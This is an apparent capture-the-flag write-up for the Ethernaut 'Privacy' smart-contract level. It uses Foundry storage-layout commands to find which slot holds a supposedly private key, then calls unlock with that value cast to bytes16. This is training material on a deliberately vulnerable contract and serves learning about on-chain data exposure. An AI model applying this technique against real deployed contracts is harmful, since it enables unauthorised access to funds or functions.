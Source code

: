 ```
Submit level txnHash: 0x52af3ff4da5a6312e6ea37461191bfc892b3c42635e01cca954e5c4cdb2dc9fe
Instance address: 0x781Ed6302712F63EE4F3541DDe074302A42Aa073
Level address: 0x19416E8a80660FE4A6f88a12d28BEb729A349052
```

```bash
forge inspect Privacy storageLayout # using for output in terminal
forge build --extra-output storageLayout #using  for output in json
```
`data[3] data` start at `slot#3` therefor `data[2]` is in `slot#5`.
it is `bytes32` and we need `bytes16` so we do this:
```javascript
bytes32 data = 0x5e075ed5f50a45d0b2ea4c26b18980794fbccdfe398b3eb0f992a6465e6fd6d5;

privacy.unlock(bytes16(data));
```
![alt text](ethernaut12-Privacy.png)